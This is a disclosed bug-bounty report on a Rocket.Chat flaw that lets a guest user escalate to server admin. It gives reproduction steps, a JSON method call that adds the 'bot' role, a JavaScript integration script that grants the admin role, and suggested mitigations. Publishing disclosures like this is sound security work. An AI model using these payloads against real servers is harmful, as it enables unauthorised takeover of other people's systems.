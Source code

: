 # Guest Privilege Escalation to admin group

## Report Details
- **Report ID**: 501081
- **URL**: https://hackerone.com/reports/501081
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-02-25T14:47:03.826Z
- **Disclosed**: 2024-08-10T22:00:09.452Z

## Reporter
- **Username**: gronke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
Due to improper ACLs it was found possible to escalate privileges from a guest user to admin.

As first step the guest user adds itself to the `bot` group that holds the `manage-own-integrations` permission. With this permission it is possible to create a custom Integration with a script that, if triggered, adds the user to the `admin` group.

The `insertOrUpdateUser` method improperly validates a users permissions to change its groups. Because an explicit check prevents from adding itself to the `admin` group directly, the privileges of the `bot` group need to be used to further escalate to global admin.

## Releases Affected:

  * [develop@5f0180d](https://github.com/RocketChat/Rocket.Chat/commit/5f0180dc1500b4e37b8320b39869babadb5d01cd)

## Steps To Reproduce (from initial installation to vulnerability):

(Add details for how we can reproduce the issue)

  1. Login Guest user
  2. Determine own users `_id` from browser traffic
  3. Escalate to `bot` group
  4. Create malicious Integration script
  5. Trigger Integration

## Supporting Material/References:

### Bot group privilege escalation
```json
["{\"msg\":\"method\",\"method\":\"insertOrUpdateUser\",\"params\":[{\"_id\": \"<USER_ID>\", \"roles\": [\"user\", \"bot\"]}],\"id\":\"17\"}"]
```

### Malicious Integrations Script
```javascript
this.Roles.addUserRoles("9HN4Brdmo2Qc2wsiX", "admin")
class Script {
  process_incoming_request({ request }) {};
}
```

## Suggested mitigation

  * Only allow administrators to modify user groups
  * Isolate Integration script context from server application

## Impact

Guest users can become server administrator.

## Attachments
No attachments
